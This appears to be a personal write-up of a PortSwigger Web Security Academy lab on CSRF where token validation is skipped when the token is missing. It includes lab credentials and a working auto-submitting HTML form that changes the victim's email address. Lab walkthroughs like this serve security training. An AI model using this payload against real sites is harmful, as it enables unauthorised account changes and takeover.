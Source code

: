 # [Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)

## Lab

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

Prevention using csrf token, but only applies defenses to requests containing token.

## Solutions

no token:

```html
<html>
  <body>
    <form action="https://id.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked@gmail.com" />
      <!-- <input type="hidden" name="csrf" value="nlX4So7IPOVne10VwoJhgteWwUaz5GGZ" /> -->
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit()</script>
  </body>
</html>
```
